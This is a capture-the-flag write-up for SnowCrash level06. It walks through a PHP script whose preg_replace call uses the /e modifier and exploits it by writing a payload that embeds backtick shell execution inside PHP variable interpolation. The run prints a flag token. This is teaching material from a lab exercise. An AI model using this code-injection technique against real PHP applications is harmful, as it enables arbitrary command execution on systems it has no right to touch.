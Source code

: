 ## level06

We have here a binary and a php file.

Reorganizing the php to make it more legible we get

```php
#!/usr/bin/php
<?php

function y($m) {
        $m = preg_replace("/\./", " x ", $m);
        $m = preg_replace("/@/", " y", $m);
        return $m;
}       

function x($y, $z) { 
        $a = file_get_contents($y);
        $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
        $a = preg_replace("/\[/", "(", $a);
        $a = preg_replace("/\]/", ")", $a);
        return $a;
}

$r = x($argv[1], $argv[2]); print $r;

?>
```

`preg_replace`: find and replace with regular expressions

`file_get_contents`: returns the file in a string

There’s an interesting discussion [here](https://stackoverflow.com/questions/15454220/replace-preg-replace-e-modifier-with-preg-replace-callback) about the `/e` in `preg_replace`: this tells the function to evaluate the regex as PHP code.

That’s probably the vulnerability we want to exploit.

To match the vulnerable regex we need the form `[x <whatever>]` so if we were to try to write into a file the PHP code `[x getflag]` and call the binary…

```php
level06@SnowCrash:~$ ./level06 /tmp/exploit
getflag
```

How about using the backtick `?

```php
level06@SnowCrash:~$ ./level06 /tmp/exploit
`getflag`
```

Hmm… not quite there yet…

What if we leverage the variable evaluation, like `x = ${my_func()}` 

```php
level06@SnowCrash:~$ echo '[x ${`getflag`}]' > /tmp/exploit
level06@SnowCrash:~$ ./level06 /tmp/exploit
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1
```

This way `getflag` was evaluated while being `flag06` and returned what we needed.

### Key Learnings
- `preg_replace` with `/e` modifier evaluates the replacement as PHP code
- variable evaluation in PHP to execute arbitrary code